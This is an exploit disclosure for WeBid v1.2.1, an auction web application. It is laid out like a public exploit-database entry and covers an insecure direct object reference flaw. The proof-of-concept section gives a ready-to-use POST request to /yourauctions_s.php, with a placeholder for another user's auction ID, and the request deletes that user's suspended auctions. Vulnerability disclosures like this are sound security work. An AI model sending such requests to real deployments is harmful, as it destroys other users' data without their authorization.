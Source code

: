 # Exploit Title: Webid v1.2.1 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://sourceforge.net/projects/simpleauction/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Webid
## Version: v1.2.1
## Exploit Description:
## Webid v1.2.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to delete a suspended auction that is owned by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /yourauctions_s.php HTTP/1.1
...

csrftoken=e7ea4206644f3113937111c886b52ead&O_delete%5B%5D=5(CHANGE HERE)&action=delopenauctions&Submit=Process+selected+auctions
```